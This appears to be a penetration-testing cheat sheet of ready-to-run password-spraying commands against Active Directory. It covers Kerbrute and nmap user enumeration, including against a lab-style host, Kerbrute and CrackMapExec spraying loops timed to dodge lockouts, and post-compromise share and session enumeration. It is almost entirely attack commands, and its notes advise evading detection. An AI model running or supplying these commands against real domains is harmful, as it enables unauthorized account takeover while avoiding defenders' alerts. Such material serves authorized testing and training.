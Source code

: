 # Password Spraying Commands and Techniques

## 1. User Enumeration with Kerbrute
```bash
# Using a predefined username list
kerbrute userenum --dc <domain-controller> -d <domain> usernames.txt

# Using a generated username list (GUIDs example)
for x in {{A..Z},{0..9}}{{A..Z},{0..9}}{{A..Z},{0..9}}{{A..Z},{0..9}}; do echo $x; done > usernames.txt
```
```bash
nmap -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm=frizz.htb 10.10.11.60

```
## 2. Password Spraying with Kerbrute
```bash
kerbrute passwordspray --dc <domain-controller> -d <domain> -U usernames.txt -p <common-password>
```

## 3. Password Spraying with CrackMapExec (CME)
```bash
cme smb <target-ip> -u usernames.txt -p <password> --no-bruteforce
```

## 4. Obtaining Password Policy (if internal access is available)
```powershell
net accounts
Get-ADDefaultDomainPasswordPolicy
```

## 5. Delay Consideration Between Sprays (Bash Example)
```bash
for password in Welcome1 Passw0rd Winter2022; do
    cme smb <target-ip> -u usernames.txt -p $password --no-bruteforce
    sleep 1800  # Wait 30 minutes to avoid account lockouts
done
```

## 6. Handling Large User Lists (Bash Example)
```bash
split -l 1000 usernames.txt user_chunk_
for file in user_chunk_*; do
    kerbrute passwordspray --dc <domain-controller> -d <domain> -U $file -p <password>
    sleep 1800
done
```

## 7. Post-Spray Enumeration
```bash
cme smb <target-ip> -u <username> -p <password> --shares
cme smb <target-ip> -u <username> -p <password> --sessions
```

## 8. Automation (Basic Script)
```bash
#!/bin/bash
PASSWORDS=(Welcome1 Passw0rd Winter2022)
for password in "${PASSWORDS[@]}"; do
    kerbrute passwordspray --dc <domain-controller> -d <domain> -U usernames.txt -p $password
    sleep 1800
done
```

## Notes:
### - Adjust delay times based on password policy.
### - Always confirm the password policy before attempting spraying.
### - Use minimal attempts to avoid detection and lockouts.
